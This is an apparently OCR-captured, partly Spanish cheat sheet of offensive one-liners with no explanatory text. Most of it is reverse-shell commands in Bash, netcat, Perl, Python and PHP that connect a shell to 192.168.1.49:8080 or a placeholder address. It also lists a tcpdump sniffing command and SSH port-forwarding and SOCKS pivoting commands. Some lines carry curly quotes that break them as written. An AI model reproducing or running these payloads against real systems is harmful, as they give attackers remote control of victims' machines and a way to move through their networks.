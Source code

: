   ```
#### Bash

- /bin/bash -i > /dev/tcp/192.168.1.49/8080 0<&1 2>&1
- rm /tmp/blackpipe;mkfifo /tmp/blackpipe;cat /tmp/blackpipe|/bin/sh -i 2>&1|nc 192.168.1.49 8080 >/tmp/blackpipe
- nc -c /bin/sh [IPADDR] [PORT]
- nc -e /bin/sh [IPADDR] [PORT]
- /bin/sh | nc [IPADDR] [PORT]

#### Perl

- perl -e ‘use Socket;$i=”192.168.1.49″;$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’

#### Python

- python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.49”,8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’

#### Python 3

- python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IPADDR]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
- python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IPADDR]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'

#### Php

- php -r ‘$sock=fsockopen(“192.168.1.49”,8080);exec(“/bin/sh -i <&3 >&3 2>&3”);’

#### Sniffing de red

- tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21

#### Port forwarded SSH

- ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
- ssh -L 8080:127.0.0.1:80 root@192.168.1.1    # Local Port
- ssh -R 8080:127.0.0.1:80 root@192.168.1.1    # Remote Port
- ssh -D 127.0.0.1:9050 -N [username]@[ip]
- Proxychains


